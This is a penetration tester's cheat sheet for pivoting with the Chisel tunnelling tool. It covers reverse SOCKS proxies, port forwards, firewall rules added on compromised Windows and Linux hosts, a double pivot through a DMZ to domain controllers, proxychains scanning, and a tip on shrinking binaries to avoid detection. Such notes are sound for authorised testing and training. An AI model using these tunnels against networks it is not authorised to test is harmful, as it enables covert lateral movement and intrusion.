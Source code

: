 ### Reverse SOCKS Proxy
```shell
chisel server -p 1335 --reverse &
```

```shell
./chisel client 192.168.45.237:1335 R:9999:socks &
```
```powershell
Start-Job {.\chisel.exe client 192.168.45.237:1335 R:9999:socks}
Start /B chisel.exe client 10.10.14.189:443 R:9050:socks &
```

### Port Forward
```shell
.\chisel.exe client 192.168.45.237:1335 8080:127.0.0.1:80
```

### Local Port Forward
A remote port forward is when we connect back from a compromised target to create the forward.
Start chisel server on compromised host
```powershell
./chisel_windows.exe server --port 54321 --reverse --socks5
netsh advfirewall firewall add rule name="Chisel-Adot8" dir=in action=allow protocol=tcp localport=15997
```
OR 
```bash
firewall-cmd --zone=public --add-port 15997/tcp
```
Connect to target
```shell
chisel client 192.168.194.95:54321 127.0.0.1:9999:127.0.0.1:3306
```
Everything we send to 127.0.0.1:9999 will get sent to the target on 3306

### Double Pivot
Kali -> NIX01(DMZ) -> DC01 -> DC02
- NIX01 and DC01 - 172.16.1.0/24
- DC02 - 172.16.2.0/24

On our machine
```shell
./chisel_linux server --socks5 -p 9001 --reverse
```
Edit proxychains config and comment out `socks 127.0.0.1 9050`
```shell
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888
```
On NIX01
```shell
./chisel client 10.10.14.10:9001 R:9999:socks &
./chisel server  -p 9002 --reverse --socks5 &
```
On DC01
```powershell
chisel.exe client 172.16.1.100:9002 R:8888:socks
```
Scan
```bash
proxychains -q nmap -p445 -Pn -v 172.16.2.5
```

It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. Two beneficial resources to complement this particular concept are Oxdf's blog post "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/cheatsheets/chisel)" and IppSec's walkthrough of the box `Reddish`. IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s)